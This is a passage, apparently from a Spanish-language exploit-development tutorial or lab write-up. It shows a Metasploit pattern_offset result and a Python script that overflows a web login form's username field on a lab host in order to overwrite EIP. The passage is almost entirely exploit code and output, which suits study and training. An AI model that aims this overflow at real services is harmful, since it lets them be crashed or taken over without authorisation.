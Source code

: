 ```
❯ sudo /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q 42306142
[*] Exact match at offset 780
```
----

## Sobreescribir EIP

```
#!/usr/bin/python

import socket, time, sys

try:
	print "[+] Sending buffer"

	size = "A"*780 + "B"*4 + "C"*20

	fuzz = "username=" + size + "&password=A"

	buff = "POST /login HTTP/1.1\r\n"
	buff += "Host: 192.168.0.105\r\n"
	buff += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
	buff += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
	buff += "Accept-Language: en-US,en;q=0.5\r\n"
	buff += "Accept-Encoding: gzip, deflate\r\n"
	buff += "Referer: http://192.168.0.105/login\r\n"
	buff += "Content-Type: application/x-www-form-urlencoded\r\n"
	buff += "Content-Length: " + str(len(fuzz)) + "\r\n"
	buff += "\r\n"

	buff += fuzz

	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.105", 80))
	s.send(buff)
	s.close()

except Exception as e:
	print str(e)
	sys.exit(1)
```
